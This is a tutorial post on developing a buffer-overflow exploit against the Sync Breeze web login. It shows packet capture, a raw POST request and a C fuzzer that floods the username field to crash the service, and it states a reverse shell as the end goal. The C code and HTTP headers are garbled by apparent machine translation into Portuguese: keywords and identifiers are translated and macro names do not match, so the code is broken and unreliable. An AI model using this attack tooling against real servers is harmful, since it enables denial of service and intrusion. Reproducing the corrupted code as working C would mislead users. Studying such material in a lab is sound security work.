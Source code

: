 ```yaml
---
title: "Exploit Development for Buffer Overflow"
date: 2025-04-06    
categories: [Exploit]
tags: [Reverse]
---
```


# Exploit Development for Buffer Overflow

Hello, in this post I will develop an exploit and simulate a Buffer Overflow (BOF) attack in a practical way.

Objective: trigger a Buffer Overflow, overwrite the return address, and take control of the program’s execution flow, allowing remote access to the target machine through a reverse shell.

Before the practical part, we need to understand how a BOF works. In summary, a Buffer Overflow occurs when a program writes an excessive amount of data into a buffer, exceeding its capacity and overwriting adjacent areas in memory, including the function’s return address. In x86 assembly, when calling a function, the stack expands to save the return address (EIP) and the base pointer (EBP), along with local variables. If a buffer resides on the stack and there is no boundary check, an attacker can input data that exceeds the buffer size, which may result in modifying the EIP, allowing the manipulation of the execution flow and later the execution of a shellcode.

## Understanding the Application:
In the testing environment with Sync Breeze properly configured on Debian 12, we will open it in the browser.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*KKyprCZMgPUxKjfd42_plw.png)

With the intention of capturing the requests to start analyzing how the application works, we will use TCPDUMP to understand and capture the network packets.

<pre>sudo tcpdump -i enp5s0 -s0 -w analise_sync.pcap </pre>


While tcpdump captures the network packets, we interact with the application to capture the requests made between the client and the server.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*WwHpeS_E_vY8GhzmTxSyAw.png)

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*fbkcVuCiCAGwKABGwZOTtg.png)

After interacting with the application solely for the purpose of generating network packets and understanding what happens under the hood, we will analyze these packets using a tool called Wireshark, which provides better visibility of the packets.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*DswB1tFgeWj8cmIAE_9BAw.png)

We will filter only by the HTTP protocol.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*cOhRsQRarjAvy-kvIk03vw.png)

What draws attention at this moment is the POST method, which is accessing /login.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*yDp5OKjujv8dqlEADMy4tg.png)

The application has some input fields, which allows us to build a fuzzer to analyze potential vulnerabilities. For that, we will use the following HTTP request header, where we will inject random data and perform tests for our BOF.

<pre>POST /login HTTP/1.1 
Host: 192.168.5.17:8080 
Conexão: keep-alive 
Comprimento do conteúdo: 37 
Controle do cache: max-age=0 
Origem: http://192.168.5.17:8080 
Tipo de conteúdo: application/x-www-form-urlencoded 
Solicitações de atualização inseguras: 1 
Agente do usuário: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, como Gecko) Chrome/134.0.0.0 Safari/537.36 
Aceitar: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 
Referenciador: http://192.168.5.17:8080/login 
Aceitar-Codificação: gzip, deflate 
Aceitar-Idioma: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7

 username=teste1234&password=senha1234</pre>

## Building and Testing Our Fuzzer:
With the header in hand, we can start building our fuzzer in C language, targeting the /login endpoint. I am breaking the code into parts for better understanding.

<pre># incluir  <stdio.h>
 # incluir  <stdlib.h>
 # incluir  <string.h>
 # incluir  <unistd.h>
 # incluir  <arpa/inet.h>

 # definir IP_DO_SERVIDOR "192.168.5.17"
 # definir PORTA_DO_SERVIDOR 8080 
# definir TAMANHO_DO_BUFFER 4096 

int  main () { 
    int sock; 
    struct  sockaddr_in  server ; 
    char buffer[TAMANHO_DO_BUFFER]; 
    
    for ( int fuzz = 100 ; fuzz <= 2000 ; fuzz += 100 ) { 
        char *buf = ( char *) malloc (fuzz + 1 ); 
        memset (buf, 'A' , fuzz); 
        buf[fuzz] = '\0' ; 

        char payload[TAMANHO_DO_BUFFER]; 
        snprintf (payload, sizeof (payload), "nome de usuário=%s&senha=123456" , buf); 

        char request[BUFFER_SIZE]; 
        snprintf (request, sizeof (request), 
            "POST /login HTTP/1.1\r\n" 
            "Host: %s:%d\r\n" 
            "Conexão: keep-alive\r\n" 
            "Tamanho do conteúdo: %lu\r\n" 
            "Controle de cache: idade máxima=0\r\n" 
            "Origem: http://%s:%d\r\n" 
            "Tipo de conteúdo: application/x-www-form-urlencoded\r\n" 
            "Solicitações de atualização inseguras: 1\r\n" 
            "Agente do usuário: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, como Gecko) Chrome/134.0.0.0 Safari/537.36\r\n" 
            "Aceitar: texto/html,aplicativo/xhtml+xml,aplicativo/xml;q=0.9,imagem/webp,*/*;q=0.8,aplicativo/signed-exchange;v=b3;q=0.7\r\n" 
            "Referência: http://%s:%d/login\r\n" 
            "Aceitar codificação: gzip, deflate\r\n" 
            "Aceitar idioma: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7\r\n" 
            "\r\n" 
            "%s" , 
            IP_DO_SERVIDOR, PORTA_DO_SERVIDOR, strlen (carga útil), 
            IP_DO_SERVIDOR, PORTA_DO_SERVIDOR, 
            IP_DO_SERVIDOR, PORTA_DO_SERVIDOR, 
            carga útil); 

        if ((sock = socket(AF_INET, SOCK_STREAM,0 )) < 0 ) { 
            perror( "Erro ao criar soquete" ); 
            grátis (buff); 
            retornar  1 ; 
        } 

        servidor.sin_family = AF_INET; 
        servidor.sin_port=htons(SERVER_PORT);
        if (inet_pton(AF_INET, SERVER_IP, &server.sin_addr) <= 0 ) { 
            perror( "Endereço inválido" ); 
            free (buf); 
            close(sock); 
            return  1 ; 
        } 

        if (connect(sock, ( struct sockaddr *)&server, sizeof (server)) < 0 ) { 
            perror( "Erro ao conectar ao servidor" ); 
            free (buf); 
            close(sock); 
            return  1 ; 
        } 

        printf ( "[*] Enviando %d bytes no parâmetro username...\n" , fuzz); 
        if (send(sock, request, strlen (request), 0 ) < 0 ) { 
            perror( "Erro ao enviar dados" ); 
            free (buf); 
            close(sock); 
            return  1 ; 
        } 

        int bytes_received = recv(sock, buffer, sizeof (buffer) - 1 , 0 ); 
        if (bytes_received > 0 ) { 
            buffer[bytes_received] = '\0' ; 
            printf ( "Resposta:\n%s\n" , buffer); 
        } else { 
            perror( "Erro ao receber resposta" ); 
        } 

        close(sock); 
        free (buf); 
    } 

    return  0 ; 
}</pre>

My fuzzer looks like this, and I will explain some important details about the code. The code performs fuzzing on the username field of an HTTP POST request, sending buffers of different sizes to test possible vulnerabilities in the server.

First, it runs a loop that generates buffers from 100 to 2000 bytes, filled with the letter “A”, using the memset() function. This buffer is then incorporated into the request payload, which contains the username and password fields.

Next, the program builds the HTTP request, including the headers and other necessary components to simulate a legitimate request. It also establishes a TCP socket, allowing communication with the server. If the connection is successful, the HTTP request is sent using the send() function.

By running the fuzzer, it was possible to observe at which point in the payload the application stops responding.

![alt text](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Mzpmyv2566f7qW4YkWlANQ.png)